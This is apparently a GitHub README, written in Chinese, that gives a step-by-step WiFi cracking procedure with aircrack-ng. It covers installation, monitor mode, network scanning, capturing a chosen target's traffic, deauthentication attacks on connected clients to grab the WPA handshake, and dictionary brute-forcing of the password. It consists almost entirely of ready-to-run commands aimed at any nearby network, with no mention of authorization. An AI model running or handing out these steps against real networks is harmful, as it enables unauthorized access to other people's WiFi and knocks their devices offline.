



## wifi-crack

### Github地址
> https://github.com/linganmin/wifi-crack

### wifi破解工具下载和安装

#### 破解工具
> Aircrack-ng


#### 下载：
> 在Software目录下放有aircrack-ng-1.2-rc4版本，如需使用最新版请前往该软件官网 http://www.aircrack-ng.org 下载


#### 安装：
> 推荐使用linux-Ubuntu

- 先安装软件依赖
```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
```

- 将下载好的aircrack-ng解压
```
tar zxvf aircrack-ng-1.2-rc4.tar.gz
```

- 进入解压目录，编译，安装
```
cd aircrack-ng-1.2-rc4
make
sudo make install
```


### wifi破解过程
- 关闭网络管理器，为了防止干扰
```

service  network-manager stop
airmon-ng check kill
```

- 查看本机电脑的无线网卡名称，下面会用到
```
iwconfig
```

- 激活网卡为监听（monitor）模式
```
airmon-ng start wlan0
```
> wlan0为上面查看到的本机的无线网卡名称，替换为自己查看到的无线网卡名称即可


- 得到监控模式下的设备名是mon0，有的可能是wlan0mon，请记住这个名字

- 探测周围无线网络
```
airodump-ng wlan0mon
```
> wlan0mon为本机监控模式下的设备名，替换成自己监控模式下的设备名称即可,本机探测到WIFI如下图


- 监听指定WIFI，抓取目标的数据包(一直运行，知道攻击成功)
```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon
```
> mac地址为上一步探测到的WiFi中你想破解的WIFI的mac地址，频道号为该mac地址所对应的频道号，cap文件名为攻击成功后生成的文件，最后暴力比对字典使用,监听图如下


- 另起一个终端，模拟目标wifi，向可信客户端发起断链攻击，以获取handshake,若一次不成功则多试几次
```
aireplay-ng -0 1 –a 目标wifi的mac地址 -c 客户端的mac地址 wlan0mon
```
> 攻击成功后,airodump-ng会捕获到handshake如下图 ,此时可以ctrl+c终止airodump-ng抓包。


- 通过字典暴力破解捕获到的加密密码
```
aircrack-ng -w 密码字典 捕获的cap文件
```

- 破解成功，恢复网络环境
```
service  network-manager start
```


### 注意点
> 在执行程序或安装程序过程中可能会频繁提示使用管理员权限，所以每条命令执行时最好在前面加上sudo